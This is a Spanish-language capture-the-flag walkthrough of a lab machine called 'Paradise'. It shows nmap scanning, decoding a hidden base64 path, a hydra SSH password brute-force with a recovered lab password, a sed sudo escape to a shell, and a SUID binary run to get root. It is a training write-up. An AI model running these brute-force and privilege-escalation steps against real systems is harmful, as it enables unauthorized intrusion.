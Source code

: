 Maquina: Paradise

Autor: kaikoperez

Dificultad: Facil

![Captura de pantalla 2024-12-06 172150](https://github.com/user-attachments/assets/69a39caa-a114-4ee3-9d59-54a102178aba)

Hacemos ping para ver si hay conexion

ping 172.17.0.2 -c 1

![Captura de pantalla 2024-12-06 172615](https://github.com/user-attachments/assets/11cacbae-7a20-484f-98ff-cda263738576)

Hacemos un escaneo de puertos con nmap

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

![Captura de pantalla 2024-12-06 172733](https://github.com/user-attachments/assets/78916230-0770-486a-bd70-453bb9eba54a)

Ingresamos la dirección IP en el navegador y podemos observar una página con 2 botones

![Captura de pantalla 2024-12-06 172818](https://github.com/user-attachments/assets/c83802d0-2c20-40cf-9cf9-7e3f42a4d4cb)

Si vamos a Go to the paradise y revisamos el código podemos observar que tiene un texto llamativo

![Captura de pantalla 2024-12-06 173100](https://github.com/user-attachments/assets/b4ec6579-1867-4ac8-b370-6de9814f9f26)

Esta en base 64, probamos revertir el mensaje

echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d

![Captura de pantalla 2024-12-06 173144](https://github.com/user-attachments/assets/2db0ed95-e8ce-4e0a-bbc7-f3f72b4f6a75)

Lo agregamos a la URL y nos lleva a un archivo TXT

172.17.0.2/estoesunsecreto

![Captura de pantalla 2024-12-06 173217](https://github.com/user-attachments/assets/77e56e4c-00b3-4eb8-8573-75e75b7673c6)

encontramos un posible usuario, navegamos al archivo y leemos el mensaje

![Captura de pantalla 2024-12-06 173247](https://github.com/user-attachments/assets/2293d57f-284d-4ad0-81f5-b86b7c572912)

Usamos hydra con lucas para conseguir el password

hydra -l lucas -P /usr/share/worlists/rockyou.txt ssh://172.17.0.2

![Captura de pantalla 2024-12-06 173627](https://github.com/user-attachments/assets/7364971d-9fe0-405c-a179-498a28ee86de)

Nos conectamos por ssh con las credenciales obtenidas

ssh lucas@172.17.0.2
chocolate

![Captura de pantalla 2024-12-06 173742](https://github.com/user-attachments/assets/85f1dd1b-9abb-4e98-a62e-42982ed1c931)

sudo -l

![Captura de pantalla 2024-12-06 174052](https://github.com/user-attachments/assets/123bf491-f70b-44ee-98e4-7357c225a9f2)

sudo -u andy sed -n '1e exec sh 1>&0' /etc/hosts

![Captura de pantalla 2024-12-06 174253](https://github.com/user-attachments/assets/8cb1142e-8244-4d63-b231-4403cee99240)

find / -perm -4000 -type f 2>/dev/null

![Captura de pantalla 2024-12-06 174339](https://github.com/user-attachments/assets/915e4439-dccc-4070-b230-7211299ce864)

Encontraremos dos interesantes en los que tenemos permisos de ejecución

Ejecutamos el binario /usr/local/bin/privileged_exec y descubrimos que obtenemos privilegios de root

whoami

![Captura de pantalla 2024-12-06 174513](https://github.com/user-attachments/assets/4d4d5321-c2e4-4912-ac19-202ff11b4c3d)

